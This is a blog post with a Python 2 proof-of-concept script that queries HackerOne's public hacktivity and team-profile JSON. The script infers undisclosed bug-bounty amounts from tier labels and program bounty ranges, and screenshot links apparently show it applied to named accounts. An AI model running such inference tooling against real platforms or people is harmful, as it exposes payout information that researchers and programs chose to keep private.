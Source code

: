 ```yaml
---
layout: post
title: Cracked HackerOne Hidden Bounty Amount
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - CongRong</p>

## POC:

{% highlight python %}

#!/usr/bin/env python
#coding:utf-8

import json
import requests
from datetime import datetime


class crack(object):
	def __init__(self, user):
		self.teams = {}
		self.user = user
		self.formatted_bounty = {
			"$":["BOUNTY_LOW","base_bounty","<"],
			"$$":["BOUNTY_MEDIUM","base_bounty", ">="],
			"$$$":["BOUNTY_HIGH","top_bounty_lower_range", ">="],
			"$$$$":["BOUNTY_SEVERE","top_bounty_lower_range", ">="]
		}
		self.headers = {
			'accept': 'application/json',
			'x-requested-with': 'XMLHttpRequest',
		}


	def loads_hide_reward(self):
		print "[+] Loads Hidden Bounty Reports ..."
		url = 'https://hackerone.com/hacktivity?sort_type=latest_disclosable_activity_at&page={}&filter=type%3Abounty-awarded%20{}&range=forever'
		req = json.loads(requests.get(url.format(1, self.user), headers=self.headers).content)
		bounty_reports = req['reports']
		if req['pages'] > 1:
			print "[+] There are {} pages".format(req['pages'])
			for i in range(1,req['pages'] + 1):
				bounty_reports += json.loads(requests.get(url.format(i, self.user), headers=self.headers).content)['reports']

		hide_bounty_reports = filter(lambda x:x['bounty_disclosed'] == False, bounty_reports)
		if len(hide_bounty_reports) == 0:
			print "[+] Hide Bounty Reports Count 0!"
			exit()

		results = {}
		for k,p in enumerate(hide_bounty_reports):
			report_tmp = {}
			report_tmp['id'] = p['id']
			report_tmp['team'] = p['team']['handle']
			report_tmp['from_or_to'] = report_tmp['team'] if 'from%3A' in self.user else p['reporter']['username']
			report_tmp['bounty'] = p['formatted_bounty']
			time_format = datetime.strptime(p['latest_disclosable_activity_at'], "%Y-%m-%dT%H:%M:%S.%fZ").strftime("%Y/%m/%d %H:%M:%S")
			report_tmp['hacktivity'] = p['latest_disclosable_action'] + " " + time_format
			results[k] = report_tmp
			print "[{}] -> {} {} {} {}".format(k, 
											report_tmp['id'], 
											report_tmp['from_or_to'], 
											report_tmp['bounty'], 
											report_tmp['hacktivity']
											)

		report_key = raw_input("Select Bounty Hidden Report [Default ALL]:")
		if report_key.isdigit() and 0 <= int(report_key) <= len(results) - 1:
			report_keys = [int(report_key)]
		else:
			report_keys = range(len(results))

		for i in report_keys:
			res_tmp = results[i]
			team = res_tmp['team']
			if team not in self.teams: self.teams[team] = self.loads_team(team)
			bounty_dict = self.formatted_bounty[res_tmp['bounty']]
			team_base_bounty = self.teams[team]['base_bounty']
			team_top_bounty = self.teams[team]['top_bounty_lower_range']

			if team_base_bounty == None and team_top_bounty and res_tmp['bounty'] in ["$","$$"]:
				math_flag = "<"
				bounty = self.teams[team]['top_bounty_lower_range']

			elif team_base_bounty and team_top_bounty == None:
				bounty = team_base_bounty
				math_flag = bounty_dict[2] if res_tmp['bounty'] in ["$","$$"] else ">"

			elif team_base_bounty and team_top_bounty and res_tmp['bounty'] == "$$":
				print "\033[15;32m[{}:{}] ${} > Bounty >= ${}\033[0m".format(i, bounty_dict[0], team_top_bounty, team_base_bounty)
				continue

			elif not filter(lambda x:x != None, [team_base_bounty, team_top_bounty]):
				print "\033[15;33m[{}] {} Team not show the Amount of Bounty, please read https://hackerone.com/{} page find this\033[0m".format(i,team,team)
				math_flag = ">"
				bounty = 0

			else:
				math_flag = bounty_dict[2]
				bounty = self.teams[team][bounty_dict[1]]

			print "\033[15;32m[{}:{}] Bounty {} ${}\033[0m".format(i, bounty_dict[0], math_flag, bounty)


	def loads_team(self, team):
		print "[+] Analysis {} Team Information ...".format(team)
		team_base = json.loads(requests.get('https://hackerone.com/{}'.format(team), headers=self.headers).content)
		team_metrics = json.loads(requests.get('https://hackerone.com/{}/profile_metrics.json'.format(team), headers=self.headers).content)
		team_rule = {}
		team_rule['base_bounty'] = team_base['base_bounty'] if 'base_bounty' in team_base.keys() else None
		team_rule['top_bounty_lower_range'] = team_metrics['top_bounty_lower_range']

		return team_rule


if __name__ == '__main__':
	crack_type = raw_input("please Input Crack Type[0:hack {default}/1:team]")
	if crack_type.isdigit() and int(crack_type) == 1:
		user = "to%3A" + raw_input("please Input Team Names has Handle:")
	else:
		user = "from%3A" + raw_input("please Input HackerOne Id:")
	crack(user).loads_hide_reward()

{% endhighlight %}

@geekboy:

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/579xovyz.png">

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/575csqpv.png">

@quora:

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/378eahxk.png">

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/21uemnb.png">
